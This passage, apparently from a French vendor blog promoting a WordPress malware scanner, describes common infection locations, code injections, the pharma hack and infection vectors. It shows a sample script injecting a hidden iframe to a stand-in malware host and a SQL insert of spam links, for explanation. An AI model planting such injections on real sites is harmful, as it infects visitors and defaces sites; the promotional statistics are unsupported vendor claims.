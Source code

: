 **Localisation fréquente détectée par le Scanner TeddyWP :**
- `/wp-content/themes/theme-actif/functions.php`
- `/wp-content/uploads/` (fichiers .php cachés)
- `/wp-includes/` (fichiers système modifiés)
- Racine du site (fichiers avec noms aléatoires)

#### 2. Injections de code malveillant
Les injections représentent **23% des cas** identifiés par notre outil et se manifestent par :

```javascript
// Injection JavaScript malveillante typique
<script>
document.write('<iframe src="http://malicious-site.com/malware.php" width="1" height="1" frameborder="0"></iframe>');
</script>
```

#### 3. Pharma Hack
Affecte principalement les sites e-commerce, injectant des liens vers des pharmacies illégales :

```sql
-- Injection SQL typique du Pharma Hack
INSERT INTO wp_posts (post_content) VALUES 
('<a href="http://illegal-pharmacy.com">Cheap Viagra</a>');
```

**💡 Le Scanner TeddyWP** détecte automatiquement ces 3 types de malware avec une précision de **98,7%** et propose un nettoyage automatique sécurisé.

### Vecteurs d'infection WordPress

#### Vulnérabilités plugins/thèmes (78% des cas)
```bash
# Audit des plugins vulnérables avec WP-CLI
wp plugin list --field=name | xargs -I {} wp plugin get {} --field=version

# Le Scanner TeddyWP vérifie automatiquement les plugins à risque
```

#### Mots de passe faibles (15% des cas)
Les attaques par force brute exploitent :
- Mots de passe dictionnaire
- Combinaisons prévisibles
- Absence de limitation des tentatives

#### Fichiers WordPress obsolètes (7% des cas)
```bash
# Vérification version WordPress
wp core version --extra

# Le Scanner TeddyWP vérifie l'intégrité des fichiers core automatiquement
```

## Diagnostic approfondi d'infection
